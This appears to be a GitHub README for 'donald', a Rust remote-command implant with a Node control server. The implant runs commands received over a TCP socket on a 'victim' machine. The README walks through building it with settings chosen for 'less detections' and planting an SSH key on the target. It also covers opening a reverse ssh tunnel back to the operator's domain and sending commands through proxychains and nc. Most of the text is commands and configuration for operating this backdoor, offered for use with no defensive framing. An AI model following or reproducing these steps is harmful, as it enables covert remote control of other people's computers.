 # Donald

_back to white house_

Donald takes an message from a TCP socket and run system command : cmd(message);
It's a puppet.

```
       ////\\\\
     ////    \\\\
    |    O  O    |
    |      ^      |
    |   \\_____/   |
     \\            /
      \\__________/
```

## Why ?

If you succeed to create a reverse shell with a proxy ( like wiht ssh ) you may want to run custom command from your server.

### TLDR :
#### Build donald
- edit build.rs 
- set listeninterface to 127 for less detections
- set REMOTEURL to your.domain
- set DEBUG if needed but may increase the detection risk
- cargo build --release --target x86_64-pc-windows-gnu

#### Victim : 
Run : 
```
Term1 : ssh -o StrictHostKeyChecking=accept-new -R <ZPORT> -i .\id_rsa <SSH_USER>@<domain>
Term2 : donald.exe
```

#### Server : 
```
git clone https://github.com/shoxxdj/donald.git
sudo apt update && sudo apt install nodejs npm -y
sudo apt install nginx
apt install proxychains
sudo apt-get install python3-certbot-nginx
vim /etc/nginx/sites-available/default
```
paste this content (edit your domain)

```
server {
    server_name  your.domain;
    
    # HTTP configuration
    
    # HTTP to HTTPS
    if ($scheme != "https") {
        return 301 https://$host$request_uri;
    } # managed by Certbot
    
    # HTTPS configuration
    listen [::]:443 ssl ipv6only=on; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/your.domain/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/your.domain/privkey.pem; # managed by Certbot
    include /etc/letsencrypt/options-ssl-nginx.conf; # managed by Certbot
    ssl_dhparam /etc/letsencrypt/ssl-dhparams.pem; # managed by Certbot

    location / {
        proxy_pass  http://127.0.0.1:8080;
        proxy_redirect                      off;
        proxy_set_header  Host              $http_host;
        proxy_set_header  X-Real-IP         $remote_addr;
        proxy_set_header  X-Forwarded-For   $proxy_add_x_forwarded_for;
        proxy_set_header  X-Forwarded-Proto $scheme;
        proxy_read_timeout                  900;
    }

}

server {
    if ($host = donald.shoxxdj.fr) {
        return 301 https://$host$request_uri;
    } # managed by Certbot


    server_name donald.shoxxdj.fr;
    listen 80;
    listen [::]:80;
    return 404; # managed by Certbot

```
finaly : 
```
sudo certbot --nginx -d your.domain
```
Then edit proxychains to :
```
socks4 127.0.0.1 <ZPORT>
```

Term 1 :
```
cd whitehouse
node app.js
```
Term 2 : 

```
echo "whoami" | proxychains nc 127.0.0.1 1234
```


### How to setup the server ?

![alt text](image.png)

1. Edit /etc/ssh/sshd_config to set GatewayPorts to yes
2. Setup proxychains in socks4 127.0.0.1 <ZPORT>
3. cd whitehouse && npm install && node app.js (sudo apt update && sudo apt install nodejs npm -y)
4. Configure nginx as reverse proxy for the node application (sudo apt install nginx)
5. Configure nginx with https certificate (sudo certbot --nginx -d <domain>)
6. Run the app.js in a first terminal
7. Prepare a second terminal : "echo 'test' | proxychains 127.0.0.1 <DONALD_LISTENPORT>"

### On the victim computer

1. Start donald.exe
2. ssh -o StrictHostKeyChecking=accept-new -R <ZPORT> -i .\id_rsa <SSH_USER>@<domain> (use -v -v -v -v for debug) (and obviously put the id_rsa file on the target and associated public key on the server)

## Build

Edit build.rs with adapted values.

Linux target :

```
cargo build --release
```

Windows target :

```
cargo build --release --target x86_64-pc-windows-gnu
```

If error this might solve:

```
sudo apt install mingw-w64
rustup target add x86_64-pc-windows-gnu
```

## Setup

## Debug

It's rust. No bug.
